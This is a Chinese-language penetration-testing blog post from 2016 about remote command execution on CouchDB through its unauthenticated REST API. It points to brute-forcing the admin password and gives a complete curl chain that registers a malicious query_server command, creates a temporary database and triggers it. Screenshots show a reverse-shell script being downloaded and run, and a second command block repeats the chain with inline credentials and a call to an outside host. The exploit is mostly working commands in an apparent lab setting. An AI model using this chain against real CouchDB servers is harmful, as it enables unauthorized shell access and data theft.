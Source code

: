 ```yaml
---
layout:     post
title:      "Remote Command Execution via CouchDB"
date:       2016-09-11
categories: [Pentest, Database]

---
```



### 背景介绍
 CouchDB是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation (JSON) API 访问。CouchDB可以安装在大部分POSIX系统上，包括Linux和Mac OS X。

### 漏洞介绍
Couchdb默认会在5984端口开放Restful的API接口，如果使用SSL的话就会监听在6984端口，用于数据库的管理功能。其HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。

使用nmap扫描可发现couchdb的banner信息
![couchdb默认端口](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-nmap.png)

执行命令需要使用admin权限，如果数据库存在未授权则可直接利用，若有账号认证则需要想办法获取admin的密码，当然可通过burpsuit去爆破/_utils/，也可以通过metasploit中的auxiliary/scanner/Couchdb/Couchdb/Couchdb/Couchdb_login模块直接进行爆破
CouchDB提供了一个可视化界面工具，在浏览器中运行“http://127.0.0.1:5984/_utils/”，即可见到如下所示的界面。
![账号认证](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-admin.png)
### 漏洞利用
这里举例有账号认证的情况，我们需要使用admin身份登录然后获取cookie，再使用curl命令与api进行交互，实现数据库操作
![获取Cookie](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-cookie.png)

远程命令执行示例

>1. 新增query_server配置，写入要执行的命令；
>2. 新建一个临时库和临时表，插入一条记录；
>3. 调用query_server处理数据

```bash
curl -X PUT 'http://192.168.199.181:5984/_config/query_servers/cmd' -d '"python /tmp/back.py"'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"

curl -X PUT 'http://192.168.199.181:5984/teeest'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X PUT 'http://192.168.199.181:5984/teeest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X POST 'http://192.168.199.181:5984/teeest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"
```

远程下载反弹脚本
![写入命令](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-command.png)
成功监听到下载请求
![监听下载](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-download.png)
添加执行权限
![添加执行权限](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-chmod.png)
执行反弹脚本
![执行反弹](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-backshell.png)
getshell，读取flag
![成功](https://urahara3389.github.io/static/img/posts/CouchDB/Couchdb-RCE-over.png)
> 同样你也可以不用登录获取Cookie，直接在curl请求中带入账号密码也是可以的，类似于这样，执行效果是一样的，这种方法可能更方便点吧

```bash
root@Urahara:~# curl -X PUT 'admin:1qaz2wsx@192.168.199.165:5984/_config/query_servers/cmd' -d '"curl http://192.168.199.140/flag"'
"curl http://192.168.199.140/flag"
root@Urahara:~# curl -X PUT 'admin:1qaz2wsx@192.168.199.165:5984/wa'
{"ok":true}
root@Urahara:~# curl -X PUT 'admin:1qaz2wsx@192.168.199.165:5984/wa/haha' -d '{"_id":"770895a97726d5ca6d70a22173005c7a"}'{"ok":true,"id":"haha","rev":"1-967a00dff5e02add41819138abb3284d"}
root@Urahara:~# curl -X POST 'admin:1qaz2wsx@192.168.199.165:5984/wa/_temp_view?limit=14' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'
```


### 参考
[CouchDB未授权访问导致执行任意系统命令漏洞](https://www.secpulse.com/archives/45917.html)

[CouchDB未授权访问漏洞导致系统命令执行](http://blog.nsfocus.net/Couchdb/Couchdb-unauthorized-access-vulnerability-system-command/)